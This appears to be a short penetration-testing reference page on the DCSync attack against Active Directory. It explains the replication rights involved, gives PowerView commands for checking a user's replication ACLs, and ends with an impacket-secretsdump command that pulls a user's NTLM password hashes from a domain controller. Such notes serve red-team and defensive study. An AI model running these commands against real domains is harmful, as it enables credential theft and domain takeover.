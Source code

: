 # DS-Replication-Get-Changes and DS-Replication-Get-Changes-All (Extended Right) **DCSync attack**
**DCSync** is a technique for stealing the Active Directory password database by using the built-in Directory Replication Service Remote Protocol, which is used by Domain Controllers to replicate domain data. This allows an attacker to mimic a Domain Controller to retrieve user NTLM password hashes.
- To perform this attack, you must have control over an account that has the rights to perform domain replication (a user with the **Replicating Directory Changes** and **Replicating Directory Changes All** permissions set).
- Domain/Enterprise Admins and default domain administrators have this right by default.
## Check user's Replication Rights
### Using PowerView
1. Identify the target user and verify their group memberships
```powershell
Get-DomainUser -Identity <user> | Select-Object samaccountname, objectsid, memberof, useraccountcontrol | Format-List
```
2. Verify Replication Rights
```powershell
$sid = "S-1-5-21-3842939050-3880317879-2865463114-1164"  # Replace with the actual SID
Get-ObjectAcl "DC=yourdomain,DC=com" -ResolveGUIDs |
    Where-Object { $_.ObjectAceType -match 'Replication-Get' } |
    Where-Object { $_.SecurityIdentifier -match $sid } |
    Select-Object AceQualifier, ObjectDN, ActiveDirectoryRights, SecurityIdentifier, ObjectAceType |
    Format-List
```
<img width="1443" height="115" alt="image" src="https://github.com/user-attachments/assets/be6df894-74e1-44c5-9e06-c1ed39261fc3" />

### Using BloodHound
These two permissions (GetChanges + GetChangesAll) allow a principal to perform a DCSync attack.
<img width="2314" height="523" alt="image" src="https://github.com/user-attachments/assets/ee425556-d0cd-4920-b600-e865d618f465" />

## DCSync Attack from Linux (Non-Domain Machine)

```shell
impacket-secretsdump -just-dc-user <username> <domain>/<admin_user>:<password>@<dc_ip>
```


